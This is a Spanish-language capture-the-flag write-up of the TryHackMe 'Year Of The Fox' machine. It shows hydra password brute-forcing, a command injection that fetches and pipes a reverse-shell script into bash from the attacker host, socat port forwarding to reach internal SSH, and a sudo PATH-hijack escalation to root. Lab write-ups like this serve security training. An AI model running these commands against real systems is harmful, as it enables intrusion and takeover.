 ```yaml
---
title : MQ|FOX|SMB|JAVA|RCE|SOCAT|PATH.HCK
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="/imgs/YerOfTheFox/YerOfTheFox0.png" style="border-radius: 150px; width: 169px" alt="Calamity log">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Difícil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/r/room/yotf" style="color: lightblue;">Year Of The Fox</a></p>
    </div>
</div>

<h2><font color="white"><center># Fox</center></font></h2>

* Empezamos lanzando un ping a la maquina para observar la trazabilidad de conexión y enumerar por su ttl el sistema operativo, que en este caso es una maquina Linux.

```java
# ping 10.10.92.139 -c1 -R
PING 10.10.92.139 (10.10.92.139) 56(124) bytes of data.
64 bytes from 10.10.92.139: icmp_seq=1 ttl=60 time=410 ms
RR: 	10.17.21.18
	10.16.107.119
	10.10.92.139
	10.10.92.139
	10.17.0.1
	10.17.21.18


--- 10.10.92.139 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 410.246/410.246/410.246/0.000 ms
```

* Ahora procedemos a enumerar puertos abiertos en el servidor.

```java
# Nmap 7.94SVN scan initiated Thu Dec 19 14:29:55 2024 as: nmap --min-rate 5000 -sS -Pn --open -p- -A -sCV -v -oN all_services 10.10.92.139
Nmap scan report for 10.10.92.139
Host is up (0.40s latency).
Not shown: 64446 closed tcp ports (reset), 1086 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
|_http-title: 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 21.338 days (since Thu Nov 28 06:24:38 2024)
Network Distance: 5 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2024-12-19T19:30:34+00:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   YEAR-OF-THE-FOX<00>  Flags: <unique><active>
|   YEAR-OF-THE-FOX<03>  Flags: <unique><active>
|   YEAR-OF-THE-FOX<20>  Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   YEAROFTHEFOX<00>     Flags: <group><active>
|   YEAROFTHEFOX<1d>     Flags: <unique><active>
|_  YEAROFTHEFOX<1e>     Flags: <group><active>
| smb2-time: 
|   date: 2024-12-19T19:30:34
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   276.97 ms 10.17.0.1
2   ... 4
5   399.17 ms 10.10.92.139
```
* Procedemos a ver el puerto http 80 que corre el servidor, y vemos que nos muestra un login.

<img src="imgs/YerOfTheFox/YerOfTheFox1.png">

* Usamos smbmap para listar carpetas compartidas, y vemos que no tenemos acceso.

        smbclient -H MAQUINA_IP 
         
```java
# smbmap -H 10.10.92.139
[+] Guest session   	IP: 10.10.92.139:445	Name: 10.10.92.139                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	yotf                                              	NO ACCESS	Fox's Stuff -- keep out!
	IPC$                                              	NO ACCESS	IPC Service (year-of-the-fox server (Samba, Ubuntu))
```

* Procedemos a usar enum4linux para enumerar mas a detalle usuarios y información relevante.

        enum4linux MAQUINA_IP

```java
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
 S-1-22-1-1000 Unix User\fox (Local User)
 S-1-22-1-1001 Unix User\rascal (Local User)
```

* Usamos hydra para hacer un ataque con estos usuarios encontrados.

            hydra -l rascal -P /usr/share/wordlists/rockyou.txt -f 10.10.92.139 http-head

```java
 # hydra -l rascal -P /usr/share/wordlists/rockyou.txt -f 10.10.92.139 http-head
 Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, 
 hese *** ignore laws and ethics anyway).

 [80][http-head] host: 10.10.92.139   login: rascal   password: othello
 [STATUS] attack finished for 10.10.92.139 (valid pair found)
 1 of 1 target successfully completed, 1 valid password found
```

* Ahora con la credencial encontramos vemos que hay en la pagina web.

<img src="imgs/YerOfTheFox/YerOfTheFox2.png">

* Usamos BurpSuite para controlar el trafico y hacer tests, vemos que usa cadenas java, en el apartado target, procedemos entonces a inyectar comandos 

        echo '/bin/bash -c "bash -i >& /dev/tcp/TU_IP/PUERTO 0>&1"' > data # Creamos el archivo data.

        sudo python3 -m http.server 80 # Creamos el servicio compartido.

        nc -nlvp PUERTO # Nos ponemos en escucha.
        
        sintaxis "\";curl 10.17.21.18/data | bash;\"" # Lo que haces es dentro de 2 comillas simples colocar el comando a ejecutar y se separan para que no entren en conflicto las multiples comillas. de esta manera hacer que java interprete el comando.

<img src="imgs/YerOfTheFox/YerOfTheFox3.png">


* Ganamos acceso al sistema después de lanzar la petición.

```java
www-data@year-of-the-fox:/dev/shm$ whoami
www-data
```

* Procedemos a enumerar puertos internos de la maquina y vemos que hay un puerto ssh corriendo de manera interna.
        
        netstat -nl

```java
www-data@year-of-the-fox:/dev/shm$ netstat -l
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:netbios-ssn     0.0.0.0:*               LISTEN     
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN     
tcp        0      0 localhost:ssh           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:microsoft-ds    0.0.0.0:*               LISTEN     
tcp6       0      0 [::]:netbios-ssn        [::]:*                  LISTEN     
tcp6       0      0 [::]:http               [::]:*                  LISTEN     
tcp6       0      0 [::]:microsoft-ds       [::]:*                  LISTEN 
```


* Vemos el archivo de configuración /etc/ssh/sshd_config y vemos que el usuario fox esta en lista de admitidos.

```java
www-data@year-of-the-fox:/dev/shm$ cat /etc/ssh/sshd_config  | tail -n 1
AllowUsers fox
```

* Procedemos a transferirnos socat para hacer port for warding y hacer el puerto ssh correr de manera local.

        ./socat.bin tcp-listen:8888,reuseaddr,fork tcp:localhost:22


<img src="imgs/YerOfTheFox/YerOfTheFox4.png">

* Procedemos a hacer un ataque con hydra con el usuario fox.

```java
 # hydra -l fox -P /usr/share/wordlists/rockyou.txt 10.10.92.139 -s 8888 ssh

 [DATA] attacking ssh://10.10.92.139:8888/
 [8888][ssh] host: 10.10.92.139   login: fox   password: 147852
 1 of 1 target successfully completed, 1 valid password found
```
 
* Nos conectamos por ssh de manera satisfactoria.

        ssh fox@maquina_ip -p 8888

<img src="imgs/YerOfTheFox/YerOfTheFox5.png">

* A la hora de correr el comando sudo -l vemos que no hay un path de ruta segura, lo que lo implica a poder manipular esta ruta a la hora de correr comando como usuario sudo, de esta forma poder elevar privilegios.

```java
fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
```

* Vemos que el binario /usr/sbin/shutdown lo que hace es llamar a shutdown de forma externa al parecer.

<img src="imgs/YerOfTheFox/YerOfTheFox6.png">

* Procedemos entonces a copiar el binario /bin/bash y pegar como /tmp/shutdown

```java
fox@year-of-the-fox:/dev/shm$ cp /bin/bash /tmp/shutdown
fox@year-of-the-fox:/dev/shm$ export PATH=/tmp:$PATH
fox@year-of-the-fox:/dev/shm$ sudo /usr/sbin/shutdown
root@year-of-the-fox:/dev/shm# whoami
root
```

* Y listo lo que hicimos fue alterar la ruta para que primero busque por /tmp/ el binario shutdown si lo encuentra entonces este lo ejecutara, de esta forma nos da la shell como root puesto que renombramos el binario para fuera shutdown en ves de bash. 
